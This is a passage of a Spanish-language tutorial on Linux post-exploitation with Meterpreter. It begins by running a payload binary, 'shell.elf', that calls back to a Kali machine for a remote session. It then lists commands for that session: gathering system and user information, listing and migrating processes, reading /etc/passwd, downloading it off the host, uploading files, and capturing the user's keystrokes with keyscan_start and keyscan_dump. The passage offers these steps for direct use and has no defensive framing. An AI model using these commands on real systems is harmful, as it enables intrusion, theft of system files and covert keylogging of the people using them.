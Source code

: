 ```bash
chmod +x shell.elf
./shell.elf
```

✅ En Kali deberías recibir una sesión `meterpreter`.

---

### 🧰 POST-EXPLOTACIÓN EN LINUX CON METERPRETER

Una vez dentro, puedes usar muchos comandos útiles:

---

#### 1️⃣ Información del sistema

```bash
sysinfo        # Información básica
getuid         # Usuario actual
```

---

#### 2️⃣ Listar procesos

```bash
ps
```

Puedes moverte a otro proceso con `migrate`, pero en Linux a veces esta función no está disponible.

---

#### 3️⃣ Navegar por archivos

```bash
pwd
ls
cd /etc
cat passwd
```

---

#### 4️⃣ Subir / descargar archivos

```bash
upload archivo.txt /tmp
download /etc/passwd
```

---

#### 5️⃣ Capturar comandos del usuario

Si tienes permisos, puedes usar:

```bash
keyscan_start
keyscan_dump
```

